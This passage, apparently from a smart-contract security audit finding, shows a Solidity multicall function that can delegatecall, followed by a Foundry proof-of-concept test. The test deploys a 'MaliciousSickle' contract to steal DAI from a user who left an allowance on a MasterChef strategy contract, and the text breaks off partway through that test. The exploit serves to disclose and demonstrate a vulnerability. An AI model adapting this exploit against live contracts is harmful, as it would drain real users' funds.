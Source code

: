 ```solidity
    ) external payable {
        for (uint256 i = 0; i != data.length; i++) {
            if (data[i].length == 0) {
                continue;
            }

            (bool success, bytes memory result) = isDelegatecall[i]
                ? targets[i].delegatecall(data[i])
                : targets[i].call{ value: values[i] }(data[i]);

            if (!success) {
                if (result.length == 0) revert();
                assembly {
                    revert(add(32, result), mload(result))
                }
            }
        }
    }
}
```

Test showing the contract works:

```solidity
 function test_deposit_DepositsUsingDAI_malicious(uint256 amountIn)
        public
        prank
        returns (uint256 depositedAmount)
    {
        amountIn = bound(amountIn, 500 ether, 500_000 ether);

        //funds B0B address, an innocent user that used the MasterChef strategy
        // in the past that still has an allowance on the contract
        deal(Mainnet.DAI, address(0xB0B), amountIn);
        vm.stopPrank();
        vm.prank(address(0xB0B));
        IERC20(Mainnet.DAI).approve(address(masterChefStrategy), amountIn);
        vm.startPrank(sickleOwner);

        //deploy malicious to steal funds from B0B
        MaliciousSickle maliciousSickle =
        new MaliciousSickle(sickleOwner, address(0xB0B), address(ctx.registry));

        //save prev balance
        (uint256 previousDepositedAmount,) = IMasterChef(
            Mainnet.SUSHISWAP_MASTERCHEF
        ).userInfo(2, address(maliciousSickle));
        assertEq(previousDepositedAmount, 0); //we have 0 deposit

        address[] memory routeToOther = new address[](2);
        routeToOther[0] = Mainnet.DAI;
        routeToOther[1] = Mainnet.WETH;

        MasterChefStrategy.ZapInData memory zapData = MasterChefStrategy
            .ZapInData({
            router: Mainnet.SUSHISWAP_ROUTER,
            tokenIn: Mainnet.DAI,
            amountIn: amountIn,
            routeToIntermediate: new address[](0),
            intermediateMinAmountOut: amountIn,
            routeToOther: routeToOther,
            otherMinAmountOut: 0,
            lpToken: Mainnet.SLP_DAI_WETH,
            lpTokenMinAmountOut: 0
```